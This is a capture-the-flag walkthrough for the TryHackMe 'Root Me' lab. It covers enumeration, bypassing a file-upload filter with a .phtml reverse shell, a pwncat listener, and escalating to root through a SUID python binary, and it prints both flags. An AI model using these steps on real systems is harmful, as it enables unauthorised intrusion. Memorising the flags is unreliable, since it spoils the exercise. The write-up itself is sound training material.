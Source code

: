 # Root Me
`url = https://tryhackme.com/room/rrootme`
`date = 01/19/2023`

## Enumeration

1. **Network Enumeration**
```bash
rustscan -a $IP --ulimit 6000 --scripts None
```
* Ports `22` & `80` are open which means that there is a website hosted & SSH/HTTP are the services. Hence, 2 ports are open.

2. **Directory Bruteforcing**
```bash
dirsearch -u http://$IP/
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
/uploads
/panel
/js
/index.php/login
```
* The `/uploads` page shows us the directory listing for this website.
* The `/panel` page allows you to upload files; mostly this page has an artbitrary file upload vuln.
* The `/js` page is just some 'typewriter' java script code. I dont think there is much use to it right now.
* `/index.php/login` page shows us a prompt that gives us the user name  - `root@rootme:~#`.
---

## Exploitation

* On uploading the file on `/panel` I see that ".php" files are not allowed. Which is why I first renmaes the file to `reshell.txt`, which succeeded but could not be executed. So I re-renamed the file to `revshell.phtml` which did the trick.

`pwncat-cs -lp 9999 # $LPORT`

* Shell received.
---

## Post Exploitation

1. Find the `user.txt` flag by literally searching for it in the root directory.
    ```bash
    find / -name "user.txt" -type f 2>/dev/null
    ```
which will give you the user flag - THM{y0u_g0t_a_sh3ll}

2. In order for us to switch user to root, we do some enumeration. We can check `cat /etc/crontab`. There are no crontabs. Another thing we can do is find SUID binaries in this machine --
Use command - `find / -perm -u=s -type f 2>/dev/null`
which returns -
```bash
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python
```

3. For performing privesc, get the command from gtfobins -
`/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`

which should give you root. Now you can just -
```bash
cd /root
cat root.txt
```
this will give you the root flag - THM{pr1v1l3g3_3sc4l4t10n}

fin.
